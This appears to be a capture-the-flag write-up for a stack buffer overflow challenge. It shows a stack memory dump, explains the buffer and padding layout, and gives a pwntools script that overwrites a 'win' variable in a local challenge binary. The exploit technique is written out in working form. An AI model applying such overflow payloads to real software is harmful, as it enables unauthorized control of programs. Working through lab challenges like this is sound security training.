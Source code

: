 ```
            | 0x00007fff85a4bcd8 (rsp+0x0058) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
	    | 0x00007fff85a4bce0 (rsp+0x0060) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
	    | 0x00007fff85a4bce8 (rsp+0x0068) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |---- buffer
	    | 0x00007fff85a4bcf0 (rsp+0x0070) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
	    | 0x00007fff85a4bcf8 (rsp+0x0078) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
	    | 0x00007fff85a4bd00 (rsp+0x0080) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
	    | 0x00007fff85a4bd08 (rsp+0x0088) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |  /
            | 0x00007fff85a4bd10 (rsp+0x0090) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 | /
	    | 0x00007fff85a4bd18 (rsp+0x0098) | 00 00 00 00 31 56 00 00 | 0x0000563100000000 | <------ win
	    | 0x00007fff85a4bd20 (rsp+0x00a0) | 70 cd a4 85 ff 7f 00 00 | 0x00007fff85a4cd70 |
            | 0x00007fff85a4bd28 (rsp+0x00a8) | 00 c3 81 59 29 d1 5f cb | 0xcb5fd1295981c300 |
ebp ------> | 0x00007fff85a4bd30 (rsp+0x00b0) | 70 cd a4 85 ff 7f 00 00 | 0x00007fff85a4cd70 | <------ saved ebp of previous frame
	    | 0x00007fff85a4bd38 (rsp+0x00b8) | 22 ef b6 1b 31 56 00 00 | 0x000056311bb6ef22 | <------ return address
            +---------------------------------+-------------------------+--------------------+
```


The buffer is 87 bytes long, which means that it only covers 7 bytes out of the word at `(rsp+0x0090)`.

```
Buffer:                           Padding byte:           Win variable:

00 00 00 00 00 00 00 00           00                      00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 
```

The buffer ends, we have a null byte and then we have our win variable.

We have to change the value of the win variable to `0x2dbba028`.

Let's build our payload.

```python
from pwn import *

padding = b'A' * 88
payload = padding + p64(0x2dbba028)

p = process('/challenge/babymem_level2.0')
p.recvuntil('size:')
p.sendline('120')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```
